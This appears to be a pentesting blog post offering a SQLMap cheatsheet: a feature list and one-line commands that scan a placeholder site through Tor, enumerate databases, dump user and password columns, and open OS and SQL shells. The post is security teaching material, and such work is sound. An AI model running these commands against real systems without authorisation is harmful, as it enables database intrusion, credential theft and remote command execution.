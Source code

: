 ```yaml
---
layout: post
title: "SQLMap Cheatsheet"
author: ha3ks
date: 2023-07-31
tags: tool ctf pentesting sqlmap 
category: Tooling
---
```

I thought it might be fun to add another cheatsheet to the collection, this time for the tool SQLMap.

SQLMap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

![SQLMap](https://sqlmap.org/images/screenshot.png)

## Features

* Full support for <b>MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, Informix, MariaDB, MemSQL, TiDB, CockroachDB, HSQLDB, H2, MonetDB, Apache Derby, Amazon Redshift, Vertica, Mckoi, Presto, Altibase, MimerSQL, CrateDB, Greenplum, Drizzle, Apache Ignite, Cubrid, InterSystems Cache, IRIS, eXtremeDB, FrontBase, Raima Database Manager, YugabyteDB, ClickHouse and Virtuoso</b> database management systems.
* Full support for six SQL injection techniques: <b>boolean-based blind, time-based blind, error-based, UNION query-based, stacked queries and out-of-band.</b>
* Support to <b>directly connect to the database</b> without passing via a SQL injection, by providing DBMS credentials, IP address, port and database name.
* Support to enumerate <b>users, password hashes, privileges, roles, databases, tables and columns.</b>
* Automatic recognition of password hash formats and support for <b>cracking them using a dictionary-based attack.</b>
* Support to <b>dump database tables</b> entirely, a range of entries or specific columns as per user's choice. The user can also choose to dump only a range of characters from each column's entry.
* Support to <b>search for specific database names, specific tables across all databases or specific columns across all databases' tables.</b> This is useful, for instance, to identify tables containing custom application credentials where relevant columns' names contain string like name and pass.
* Support to <b>download and upload any file</b> from the database server underlying file system when the database software is MySQL, PostgreSQL or Microsoft SQL Server.
* Support to <b>execute arbitrary commands and retrieve their standard output</b> on the database server underlying operating system when the database software is MySQL, PostgreSQL or Microsoft SQL Server.
* Support to <b>establish an out-of-band stateful TCP connection between the attacker machine and the database server</b> underlying operating system. This channel can be an interactive command prompt, a Meterpreter session or a graphical user interface (VNC) session as per user's choice.
* Support for <b>database process' user privilege escalation</b> via Metasploit's Meterpreter `getsystem` command.
Refer to the wiki for an exhaustive breakdown of the features.

Easy Scanning option:

```shell
sqlmap -u "http://testsite.com/login.php"
```

Scanning by using tor:

```shell
sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5
```

Scanning by manually setting the return time:

```shell
sqlmap -u "http://testsite.com/login.php" --time-sec 15
```

List all databases at the site:

```shell
sqlmap -u "http://testsite.com/login.php" --dbs
```

List all tables in a specific database:

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db --tables
```

Dump the contents of a DB table:

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump
```

List all columns in a table:

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns
```

Dump only selected columns:

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
```

Dump a table from a database when you have admin credentials:

```shell
sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump
```

Get OS Shell:

```shell
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --os-shell
```

Get SQL Shell:

```shell
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell
```

This is purely quick and dirty commands you can run for SQLMap. I would highly recommend as a glowing pentester to read the ultimate manual for SQLMap which can be found [here](https://github.com/aramosf/sqlmap-cheatsheet/blob/master/sqlmap%20cheatsheet%20v1.0-SBD.pdf).


-------


I don't have any sponsors or anything but if you enjoy my work, or feel sympathy for my wife, then I have set up a [Ko-Fi account](https://ko-fi.com/ha3ks) as well as a [BuyMeACoffee](https://www.buymeacoffee.com/ha3ks) people can donate to.